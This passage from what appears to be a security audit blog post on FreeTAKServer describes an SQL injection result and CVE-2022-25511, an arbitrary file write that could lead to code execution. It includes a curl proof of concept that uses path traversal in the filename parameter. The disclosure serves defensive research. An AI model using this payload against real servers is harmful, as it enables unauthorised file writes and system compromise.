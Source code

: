 Will return the following response:  
{{< image classes="fancybox center" src="/img/posts/2022/02/securityaudit-of-an-open-source-project-takserver/sqli_response.jpg" title="SQL Injection Response, Network Tab" >}}  

Which clearly shows the database results in clear-text.

### Arbitrary File Write (Remote Code Execution)

In the TAK EcoSystem there exists a file sharing function for mission essential items called DataPackages, these can be shared either by Peer-to-Peer transmission, or saved on the TAK-Server for later downloading and sharing. 

During the analysis we encountered two specific endpoints in the FreeTAKServer software that can be abused as a Arbitrary File Write, which inturn can be leveraged into Remote Code Execution through either a Cron job (depending on the accesslevel for the user running FTS) or through the Flask Templating functions.

##### \[CVE-2022-25511\] User Interface Datapackage

From the WebUI it is possible to (once logged in) upload DataPackages directly to the server so that it is possible to download the zipped files on the EUD in the field.
The route `/DataPackageTable` takes an argument `?filename=` which is not sanitized for either the Path or the Filename outside of the UI, which creates the issues that you can place any file, anywhere on the system. Albeit going this route will add some junk XML data into the end of the file, this making it extremely hard to achieve code execution through Python or Flask Templating.
This was achieved using a transparent proxy to catch and modify the webrequest, but can also be achieved using something like [Curl](https://curl.se/) 

###### Proof Of Concept

Request through Burpsuite:  
{{< image classes="fancybox center" src="/img/posts/2022/02/securityaudit-of-an-open-source-project-takserver/arbitrary-file-write_webui_request.jpg" title="Burpsuite Request" >}} 

File on system:  
{{< image classes="fancybox center" src="/img/posts/2022/02/securityaudit-of-an-open-source-project-takserver/arbitrary-file-write_webui_tmp-file.jpg" title="File on system" >}}  
(Note that the webserver is at that moment run as root, _Not Recommended_)

Bash equivalent PoC:  
```bash
curl -i -s -k -X POST -H 'Host: atak.FreeTAKServer.com:19023' -H 'Authorization: Bearer ValidRestAPIToken' -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryOUUxfHjKyflBjjhn' -H 'Accept-Encoding: gzip, deflate' --data-binary '------WebKitFormBoundaryOUUxfHjKyflBjjhn\x0d\x0aContent-Disposition: form-data; name=\"assetfile\"; filename=\"test.ext\"\x0d\x0aContent-Type: text/plain\x0d\x0a\x0d\x0aThisIs FromDataPackageTable\x0d\x0a\x0d\x0a------WebKitFormBoundaryOUUxfHjKyflBjjhn--\x0d\x0a' 'http://atak.FreeTAKServer.com:19023/DataPackageTable?filename=../../../../../../../../tmp/file.ext&creator='
```

##### End User Device MissionUpload

Every End User Device also has the ability to upload files and Datapackages for sharing and consumption elsewhere, this is done through a Marti API that is specific to the EUDs. Although the Marti API is just another RestAPI that is used in the applications but can be abused over the `TCP/8080` or the SSL equivalent (Given a valid user certificate) `TCP/8443`.
